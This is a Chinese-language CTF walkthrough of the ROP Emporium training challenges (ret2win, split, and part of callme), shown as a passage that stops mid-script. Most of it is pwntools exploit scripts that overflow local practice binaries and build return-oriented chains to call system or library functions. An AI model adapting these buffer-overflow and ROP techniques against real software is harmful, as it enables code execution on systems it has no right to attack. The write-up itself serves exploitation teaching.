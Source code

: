 ROP Emporium是一个提供ROP攻击学习样板程序的网站，一共8道题，每道题有64位、32位、ARM、MIPS共4种格式的ELF文件，适用于多种平台，难度依次递增。本文档为前6道题的x86_64位版本的解析。

[ROP Emporium](https://ropemporium.com/index.html)

# 1. ret2win

这个没什么好说的，新手第一题水平，直接改返回地址就行。

payload:

```python
from pwn import *

io = process('./ret2win')

io.sendlineafter(b'> ', cyclic(40) + p64(0x400756))

io.interactive()
```

# 2. split

这道题需要调用system函数，传入正确的参数。参数在数据段已经给出，直接使用经典gadget将参数pop到rdi寄存器中即可。rdi是64位linux程序函数的第一个参数，前6个参数分别为：rdi, rsi, rdx, rcx, r8, r9，之后的参数在栈中高地址处依次保存。

payload:

```python
from pwn import *

context.arch = 'amd64'

io = process('./split')

useful_string = 0x601060
pop_rdi_ret_addr = 0x4007c3
elf = ELF('./split')

payload = cyclic(32 + 8) + p64(pop_rdi_ret_addr) + p64(useful_string) + p64(elf.plt['system'])

io.sendlineafter(b'> ', payload)

io.interactive()
```

# 3. callme

这道题需要调用自定义库中的三个函数，这3个函数首先都对传入的前三个参数进行了检查。我们只需要在ROP里面将参数传进去即可。

payload:

```python
from pwn import *

io = process('./callme')
elf = ELF('./callme')

rdi = 0x4009a3
rsirdx = 0x40093d

payload = cyclic(32 + 8)
payload += p64(rdi) + p64(0xdeadbeefdeadbeef)
payload += p64(rsirdx) + p64(0xcafebabecafebabe) + p64(0xd00df00dd00df00d)
payload += p64(elf.plt['callme_one'])
payload += p64(rdi) + p64(0xdeadbeefdeadbeef)
```